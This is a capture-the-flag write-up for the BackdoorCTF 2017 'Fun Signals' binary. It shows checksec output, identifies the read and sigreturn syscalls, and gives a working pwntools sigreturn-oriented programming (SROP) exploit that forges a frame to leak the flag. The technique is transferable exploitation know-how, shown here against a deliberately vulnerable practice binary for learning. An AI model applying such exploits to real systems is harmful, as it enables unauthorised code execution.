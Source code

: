 # BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin](./funsignals_player_bin)

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis

![Program Analysis](./program_analysis.png)

The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./funsignals_player_bin")
context.arch = 'amd64'

def srop(rax, rdi, rsi, rdx, rip):
    frame = SigreturnFrame()
    frame.rax = rax # syscall number for write()
    frame.rdi = rdi # stdout=1
    frame.rsi = rsi # the address of flag
    frame.rdx = rdx # leak how many bytes of data
    frame.rip = rip # the address of syscall

    return frame

if __name__ == "__main__":
    # socat tcp4-listen:1337,reuseaddr,fork exec:./funsignals_player_bin
    r = remote('127.0.0.1', 1337)
    frame = srop(
    rax=constants.SYS_write,
    rdi=constants.STDOUT_FILENO,
    rsi=elf.sym['flag'],
    rdx=50,
    rip=elf.sym['syscall'],
)
    r.send(bytes(frame))
    print(r.readall().decode())
```
